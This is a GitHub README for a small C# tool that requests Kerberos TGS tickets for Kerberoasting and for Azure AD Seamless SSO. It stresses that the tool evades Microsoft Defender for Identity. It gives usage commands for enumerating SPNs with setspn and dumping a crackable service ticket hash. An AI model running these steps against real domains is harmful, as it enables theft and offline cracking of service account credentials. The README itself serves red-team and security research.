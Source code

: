 # Kerberos

I have created a small C# project that requests a Ticket Granting Service (TGS) ticket using KerberosSecurityTokenProvider to use for Kerberoasting and an option to request an Azure AD SSO TGS. For more information about these attacks, see the links below.

I started the project for educational purposes only, but the tool works fine **and is not detected by Microsoft Defender for Identity** (tested with release 2.133 of Microsoft Defender for Identity).

For more information about Azure AD SSO, please check my blog post:  
https://thalpius.com/2020/12/14/microsoft-on-premises-to-the-cloud-using-seamless-single-sign-on/

For more information about Kerberoasting, please check my blog post:  
https://thalpius.com/2020/11/30/microsoft-defender-for-identity-kerberoasting/

# Usage Azure AD SSO

Request a TGS for Azure AD SSO using the following command:  
```Batchfile
Kerberos.exe /azureadsso
```

# Usage Kerberoast

First search for an account with a service principal name you want to Kerberoast:  
```Batchfile
setspn -Q */*
```

Once you've found an SPN, use it as a parameter to get the TGS hash which you can use to crack:  
```Batchfile
Kerberos.exe /kerberoast:MSSQLSERVER/SQL-Server.thalpius.demo:1433
```

# Screenshots

Getting a TGS for Azure AD SSO:  

![Alt text](/Screenshots/Kerberos01.jpg?raw=true "Azure AD SSO")

Getting a Ticket Granting Service (TGS) ticket to Kerberoast:  

![Alt text](/Screenshots/Kerberos02.jpg?raw=true "Kerberoasting")
